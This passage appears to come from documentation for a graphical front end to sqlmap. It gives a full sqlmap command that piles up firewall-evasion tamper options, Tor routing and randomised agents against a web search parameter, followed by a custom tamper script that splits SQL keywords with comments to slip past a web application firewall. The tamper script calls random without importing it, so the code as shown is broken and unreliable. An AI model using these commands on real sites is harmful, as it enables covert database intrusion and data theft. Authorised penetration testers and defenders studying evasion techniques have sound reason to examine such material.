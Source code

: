 **Generated Command:**
```bash
sqlmap -u "http://protected-site.com/search.php?q=test" -p q --tamper=space2comment,randomcase,apostrophemask,base64encode,versionedkeywords --prefix="' UNION SELECT " --suffix=" -- -" --invalid-logical --no-escape --level=5 --risk=3 --technique=BEUSTQ --time-sec=5 --retries=3 --random-agent --delay=5 --tor --tor-type=SOCKS5 --chunked --timeout=120 --second-order="http://protected-site.com/profile.php?id=1" --alert="curl -X POST https://webhook.site/alert" --beep
```

### Example 2: Custom Tamper Script Development
**Scenario:** Create and use custom tamper scripts for specific WAF

**Custom Tamper Script (`custom_waf_bypass.py`):**
```python
import re
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    Custom WAF bypass for specific application
    """
    # Replace common SQL keywords with encoded versions
    payload = payload.replace("SELECT", "SEL/**/ECT")
    payload = payload.replace("UNION", "UNI/**/ON")
    payload = payload.replace("WHERE", "WHE/**/RE")

    # Add random comments
    payload = re.sub(r'\s+', lambda m: m.group() + '/**/' if random.random() > 0.7 else m.group(), payload)

    return payload
```

**GUI Configuration:**
```
Injection Tab:
├── Tamper Scripts: /path/to/custom_waf_bypass.py
├── Testable Parameters: id,search,filter
└── DBMS: MySQL

Detection Tab:
├── Level: 4
├── Risk: 2
└── Techniques: BEU
```

## 🔄 Second-Order Injection
